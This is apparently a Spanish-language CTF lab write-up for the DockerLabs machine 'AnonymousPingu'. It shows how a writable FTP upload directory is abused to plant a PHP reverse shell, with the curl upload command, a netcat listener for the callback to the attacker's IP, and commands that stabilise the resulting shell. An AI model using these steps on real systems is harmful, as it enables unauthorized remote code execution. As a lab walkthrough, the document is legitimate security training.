

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/anonymouspingu/index.html · generator: mkdocs

# AnonymousPingu

ftp con archivos expuestos

```text
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
```


- El recurso *upload* parece tener permisos de escritura
- Servicio de mantenimiento denominado “Heustonn”
Aprovechando esta configuración del servidor web con el servicio FTP y la posibilidad de escribir en este directorio, es posible realizar ejecución remota de código gracias a poder subir archivos de forma arbitraria al sitio ***(Unrestricted File Upload)***

1) Se crea un archivo *sh3ll.php*
2) Se obtiene la reverseshell de https://github.com/s-r-e-e-r-a-j/PHP-REVERSE-SHELL.git --> se configura la ip local 10.0.0.3 en base64 y se cambia en el script

![](../../assets/img/Pasted_image_20251008130109.png)

3) Subir archivo con `curl -T sh3ll.php ftp://172.17.0.2/upload/`
*-T* : `--upload-file` se usa para subir un archivo a un servidor FTP o SFTP.
4) usar netcat para estar a la escucha en el p222 y clicar en el recurso en la web
`nc -nvlp 222`
5) Se consigue acceso a la máquina como **www-data**
6) Sanitizar consola script
`script /dev/null -c bash`
*CTRL+Z*
`stty raw -echo; fg`
`reset`
`xterm`
`export TERM=xterm`
`export SHELL=/bin/bash`
`stty rows 16 columns 184`
